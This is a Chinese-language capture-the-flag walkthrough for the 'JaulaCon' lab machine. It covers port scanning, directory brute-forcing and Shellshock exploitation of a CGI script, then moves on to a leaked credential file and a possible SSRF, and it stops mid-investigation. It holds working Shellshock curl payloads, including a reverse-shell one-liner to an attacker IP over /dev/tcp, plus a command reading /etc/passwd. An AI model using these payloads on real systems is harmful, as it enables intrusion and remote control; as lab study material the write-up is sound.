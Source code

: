 # JaulaCon

2025.03.06 https://thehackerslabs.com/jaulacon/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3333/tcp open  dec-notes
8080/tcp open  http-proxy
```

80 为静态 web，发现 2 个顾客的人名 Jamesh Dame 和 Jumini Kiri ，其他无可用信息。

3333 对应 Node.js，访问后直接跳转到登陆 http://192.168.5.40:3333/login 目前没有登陆用户名和密码，简单测试也不存在 sql 注入。

8080 显示 apache 页面，扫描出了 http://192.168.5.40:8080/cgi-bin/ :

```
dirb http://192.168.5.40:8080/

gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://192.168.5.40:8080/cgi-bin/ -x sh,py,cgi,perl
```

这里找到 cgi 文件 http://192.168.5.40:8080/cgi-bin/agua.cgi 显示：

```
Test
Vulnerable
This is a test
```

像是有 shellshock，进行探测，证明存在：

```
curl -H 'User-Agent: () { :;}; echo; echo 1' http://192.168.5.40:8080/cgi-bin/agua.cgi
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "echo 1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
或者
nmap 192.168.5.40 -p 8080 --script=http-shellshock --script-args uri=/cgi-bin/agua.cgi
```

当 Bash<=4.3，bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。

然后执行反弹 shell 操作：

```
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
```

或者使用另外一个漏洞利用库进行利用 https://github.com/nccgroup/shocker :

```
python2  ./shocker/shocker.py --Host 192.168.5.40 --port 8080 --command "/bin/cat /etc/passwd" --cgi /cgi-bin/agua.cgi
```

然后执行反弹命令，在 kali 上得到了反弹的 shell。先看到了这个 cgi 的源码：

```
www-data@ebe553aaa355:/var/www$ cat /usr/lib/cgi-bin/agua.cgi
#!/bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Test"
echo
echo

# Vulnerable line
env x='() { :;}; echo Vulnerable' bash -c "echo This is a test"
```

进入系统后，发现是在 docker 容器中，有 .dockerenv 文件，但是没有任何特权，不能提权到宿主机。

发现隐藏文件 /opt/.credenciales : `Shellychosk:Portidrea345ñ` 可能是 ssh 或者是 3333 那个登陆页面的用户凭据。不是 ssh 的，是 3333 端口的。

登陆后，可以输入 url 下载文件，这里可能存在 SSRF。输入一个 http 请求，提示不是管理员，需要寻找提升到管理员的方法。
